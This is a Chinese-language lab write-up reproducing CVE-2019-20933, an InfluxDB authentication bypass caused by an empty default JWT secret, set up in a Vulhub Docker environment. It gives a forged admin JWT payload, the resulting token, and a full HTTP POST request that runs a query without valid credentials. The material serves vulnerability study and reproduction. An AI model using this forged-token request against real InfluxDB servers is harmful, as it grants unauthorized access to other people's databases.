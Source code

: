 # InfluxDB JWT 认证绕过漏洞 CVE-2019-20933

## 漏洞描述

InfluxDB是一款著名的时序数据库，其使用jwt作为鉴权方式。

在其1.7.6版本以前，默认设置jwt的认证密钥`shared-secret`为空字符串，导致攻击者可以伪造任意用户身份在InfluxDB中执行SQL语句。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://github.com/influxdata/influxdb/issues/12927
- https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 环境搭建

Vulhub执行如下命令启动InfluxDB 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![image-20230504104909482](images/image-20230504104909482.png)

## 漏洞复现

借助<https://jwt.io/>来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1998787794
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳。借助<https://tool.lu/timestamp/>来生成时间戳。

最终生成的token：

![image-20230504105424366](images/image-20230504105424366.png)

发送带有这个jwt token的数据包，可见SQL语句执行成功：

```
POST /query HTTP/1.1
Host: your-ip:8086
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxOTk4Nzg3Nzk0fQ.i69iSGK3q5OCEX0aExMKHciDG7nivuz4xHTgyj4-CPY
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

db=sample&q=show+users
```

![image-20230504105755072](images/image-20230504105755072.png)